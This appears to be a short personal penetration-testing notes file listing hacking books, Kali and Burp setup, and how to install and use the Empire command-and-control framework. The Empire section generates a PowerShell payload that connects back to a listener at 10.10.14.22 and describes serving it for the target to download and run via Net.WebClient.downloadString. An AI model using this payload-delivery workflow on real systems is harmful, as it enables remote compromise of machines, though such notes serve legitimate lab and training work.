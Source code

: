 # To read

- Kali Revealed
- The Hacker Playbook 2
- No Starch Metasploit
- Smashing The Stack For Fun And Profit
- The Shellcoder’s Handbook
- Violent Python
- The Web Application Hacker's Handbook

## Kali on VirtualBox
```
apt-get upgrade
apt-get dist-upgrade
apt-get install -y virtualbox-guest-x11
install guest additions # see picture
```

# Tools

## Chrome
Browse to `chrome://net-internals` in the search bar

## Firefox ESR + FoxyProxy + Burps
Install version 4.6.5 that can run on Firefox ESR v52.5.0 (32-bit) using it with Burp v1.7.27
Install Firefox Cookies manager: https://addons.mozilla.org/en-GB/firefox/addon/cookies-manager-plus/ (It gets installed under `Tools` )

## Empire
[Empire github](https://github.com/EmpireProject/Empire/tree/dev)
### Setup
```
git clone https://github.com/EmpireProject/Empire -b dev # Clone the dev branch
cd Empire/setup
./install/sh
./empire.sh
```
### Usage
```
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://10.10.14.22:443
(Empire: listeners/http) > set Port 443
(Empire: listeners/http) > execute
[*] Starting listener 'http'
[+] Listener successfully started!
(Empire: listeners/http) > back
(Empire: listeners) > launcher powershell http # this generates the payload
```
Copy the payload output and paste it into a file that you'll serve with `SimpleHTTPServer` and get from the box using `Net.WebClient.downloadString` for example.

